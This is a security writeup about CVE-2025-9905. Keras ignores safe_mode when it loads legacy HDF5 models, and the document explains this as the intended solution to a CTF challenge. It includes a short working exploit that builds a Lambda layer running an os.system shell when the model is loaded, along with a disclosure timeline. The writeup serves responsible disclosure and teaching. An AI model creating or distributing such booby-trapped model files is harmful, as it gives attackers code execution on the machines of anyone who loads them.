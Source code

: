 ```yaml
---
title:     CVE-2025-9905 - Arbitrary Code Execution on Keras (once again) via Legacy Files
author:     Gabriele Digregorio (Io_no)
pubDate:       October 23 2025 11:00:01 +0200
description:    This writeup is about the CVE-2025-9905 vulnerability, which was the intended solution to the `Intended Behaviour` challenge I authored for the ToH CTF 2025. 
categories: Misc
heroImage: /writeup_images/keras2-toh-ctf25.png
tags:
 - CVE
 - Keras
 - ToH CTF 2025
---
```


This writeup is about the CVE-2025-9905 vulnerability, which I discovered in June 2025.

Exploiting this vulnerability was also the intended solution to the `Intended Behaviour` challenge I authored for the [ToH CTF 2025](https://ctftime.org/event/2833).

> **TL;DR**
>
> When a model in the legacy format HDF5 (`.h5` or `.hdf5`) is loaded using the Keras `Model.load_model` method, the `safe_mode` setting is **silently** ignored without any warning or error. This allows an attacker to execute arbitrary code on the victim’s machine with the same privileges as the Keras application, even when `safe_mode` is enabled. The attack works regardless of the other parameters passed to `load_model` and does not require any sophisticated technique—the hardening on the content of `Lambda` layers is just not checked when HDF5 files are loaded. The vulnerability has been fixed in Keras 3.11.3.


## Details
According to the official Keras documentation, `safe_mode` is defined as:

<div style="border-left: 4px solid #4A9782; background-color: #1e1e1e; padding: 1em;">
    <strong>safe_mode</strong>: Boolean, whether to disallow unsafe lambda deserialization. When <code>safe_mode=False</code>, loading an object has the potential to trigger arbitrary code execution. This argument is only applicable to the Keras v3 model format. Defaults to <code>True</code>.
</div>

As described, the `safe_mode` option applies only to `.keras` (v3) models. In practice, this means there is no intended ways to restrict the content of `Lambda` layers in models stored in the (legacy) HDF5 format, which can therefore contain arbitrary serialized code.

However, HDF5 files can still be loaded seamlessly using `load_model` with `safe_mode=True`, **without** any warning or error, even though the hardening provided by safe mode cannot be applied to this file format. Whether this implementation choice was intentional or not, silently ignoring a security-related parameter is misleading for users who are unaware of the internal Keras behavior, creating a **false sense of security** due to `safe_mode`. At a minimum, if `safe_mode` cannot be enforced for a given file format, an explicit error should be raised to alert the user.

This issue is particularly critical given the widespread use of the HDF5 format, despite the introduction of newer formats.

Examining the implementation of `load_model` in `keras/src/saving/saving_api.py`, we can see that the `safe_mode` parameter is completely ignored when loading HDF5 files. Here's the relevant snippet:

```python
def load_model(filepath, custom_objects=None, compile=True, safe_mode=True):
    is_keras_zip = ...
    is_keras_dir = ...
    is_hf = ...

    # Support for remote zip files
    if (
        file_utils.is_remote_path(filepath)
        and not file_utils.isdir(filepath)
        and not is_keras_zip
        and not is_hf
    ):
        ...

    if is_keras_zip or is_keras_dir or is_hf:
        ...

    if str(filepath).endswith((".h5", ".hdf5")):
        return legacy_h5_format.load_model_from_hdf5(
            filepath, custom_objects=custom_objects, compile=compile
        )
```

As shown, when the file extension is `.h5` or `.hdf5`, the method delegates to `legacy_h5_format.load_model_from_hdf5`, which does not use or check the `safe_mode` parameter at all.

## Exploit

From the attacker’s perspective, creating a malicious HDF5 model which rely on `Lambda` layers to perform arbitrary code execution is as simple as the following:

```python
import keras

f = lambda x: (
    exec("import os; os.system('sh')"),
    x,
)

model = keras.Sequential()
model.add(keras.layers.Input(shape=(1,)))
model.add(keras.layers.Lambda(f))
model.compile()

keras.saving.save_model(model, "./provola.h5")
```

From the victim’s side, triggering code execution is just as simple:

```python
import keras

model = keras.models.load_model("./provola.h5", safe_mode=True)
```

That’s all. The exploit occurs **during model loading**, with no further interaction required. The parameters passed to the method do not mitigate of influence the attack in any way.


As expected, the attacker can substitute the `exec(...)` call with any payload. Whatever command is used will execute with the same permissions as the Keras application.

##### Proof of Concept (PoC)
The complete PoC is available on GitHub at [io-no/CVE-2025-9905](https://github.com/io-no/CVE-Reports/tree/main/CVE-2025-9905).

The folder contains:
* `generate.py` – generates a malicious `HDF5` file (`poc.h5`)
* `poc_load.py` – demonstrates arbitrary code execution during model loading

## Disclosure Timeline

* **6 June 2025**: Reported through Google OSS VRP.
* **8 June 2025**: *Won’t Fix (Intended Behavior)*.
* **8 June 2025**: Issue reopened.
* **10 June 2025**: *Won’t Fix (Infeasible)*.
  * Google OSS VRP stated:
    > “We (Google Security and the OSS VRP panel) won’t treat Keras `safe_mode` as a security boundary. Bypassing it won't get you a reward. \[...] you can work directly with the product teams (e.g., on GitHub) to improve `safe_mode`. We just don’t think `safe_mode` is reliable enough to be a security boundary.”
* **8 July 2025**: First private disclosure sent to the Keras team via the email listed in their `SECURITY.md` (no response).
* **18 July 2025**: Second private disclosure submitted to the Keras team via GitHub private advisory.
* **22 August 2025**: Keras 3.11.3 released with fixes ([PR](https://github.com/keras-team/keras/pull/21602)).